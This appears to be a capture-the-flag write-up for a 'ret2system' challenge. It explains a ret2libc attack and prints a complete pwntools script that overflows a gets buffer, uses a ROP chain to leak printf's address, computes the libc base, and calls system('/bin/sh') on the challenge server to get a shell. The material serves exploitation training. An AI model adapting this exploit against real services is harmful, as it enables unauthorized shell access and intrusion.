



[Source code](./handout/3-ret2system)

For this we are given a shared object file named `libc-2.31.so`  
This file contains some useful functions and we need it to perform some calculation so before starting we need to use `pwninit` so it can link the binary to our file locally



It will generate a new binary `chal_patched` which will use to work from now.  

Let's check the protections on the binary and the shared object



For this challenge our goal is to call the system function in the libc shared object from the program. To do this we need to calculate the base address of the libc by leaking an address from the libc and then subtract it from the address in the symbols.  
But here we do not have a `format string` we can leverage to leak it.  

There is no 'Stack Canary' so we can overwrite the return address of the program (because of the gets function). We will use this and use an ROP chain to leak a `printf` address at runtime, redirect the program to main, then compute the libc base address with the leak, compute the additional gadgets we need and call the system function

Final script:

```python
#!/usr/bin/env python3

from pwn import *

elf = ELF("./chal_patched")
libc = ELF("./libc-2.31.so")
ld = ELF("./ld-2.31.so")
rop = ROP(elf)

context.binary = elf

HOST = "chal.sigpwny.com"
PORT = 1394
OFFSET = 0

conn = remote(HOST, PORT)

POP_RDI = rop.find_gadget(['pop rdi', 'ret'])[0]
RET = rop.find_gadget(['ret'])[0]

# --- Payload ---
payload = b"A" * 56 # padding
payload += p64(POP_RDI)           # put the next value on the stack into the rdi register
payload += p64(elf.got['printf']) # put the printf address into rdi
payload += p64(elf.plt['puts'])   # use puts to print the address
payload += p64(elf.sym['main'])   # go back to main function

conn.sendlineafter(b": ",payload)

# Receive and extract the leaked address
received = conn.recvline().strip()
info(f"{received}")
leak_printf = u64(received.ljust(8, b"\x00"))
info(f"{hex(leak_printf) = }")

# address of printf in the libc library
printf_addr = libc.sym['printf']
info(f"{hex(printf_addr) = }")

# computation of the libc base address
libc_base = leak_printf - libc.sym['printf']
info(f"{hex(libc_base) = }")

# From this and with this line the next addresses will be compute automatically
libc.address = libc_base

# system address in libc at runtime
system_addr = libc.sym['system']
info(f"{hex(system_addr) = }")

# '/bin/sh' address in libc at runtime
bin_sh_addr = libc.search(b"/bin/sh\x00").__next__()
info(f"{hex(bin_sh_addr) = }")

# Crafting the new payload
payload = b"A" * 56
payload += p64(RET)         # align the stack on 16 bytes
payload += p64(POP_RDI)     # put the next value on the stack into the rdi register
payload += p64(bin_sh_addr) # put the "/bin/sh" string into the RDI register
payload += p64(system_addr) # call system()

conn.sendlineafter(b": ",payload)
conn.interactive()
```




